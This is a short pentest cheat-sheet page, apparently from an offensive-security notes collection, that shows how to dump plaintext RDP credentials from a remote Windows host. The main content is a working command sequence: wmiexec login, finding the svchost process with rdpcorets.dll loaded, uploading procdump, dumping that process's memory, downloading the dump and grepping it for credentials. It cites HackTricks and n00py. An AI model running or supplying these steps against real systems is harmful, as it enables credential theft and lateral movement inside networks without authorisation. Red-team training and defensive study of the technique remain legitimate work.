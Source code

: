 # Unix Shell

Search Tag(s): #lateral-movement #impacket

TODO: Fill in the info

```
$ wmiexec <username>:<password>@<IP>

C:\> tasklist /M:rdpcorets.dll

C:\> lput /path/to/local/procdump64.exe

C:\> procdump64.exe -ma <svchost.exe_pid> rdpcreds.dmp

C:\> lget rdpcreds.dmp

C:\> exit
```

`$ strings -el rdpcreds.dmp | grep <username> -C1`

---
## References

- [Hacktricks: RDP Sessions Abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/rdp-sessions-abuse)

- [n00py: Dumping Plaintext RDP credentials from svchost.exe](https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/)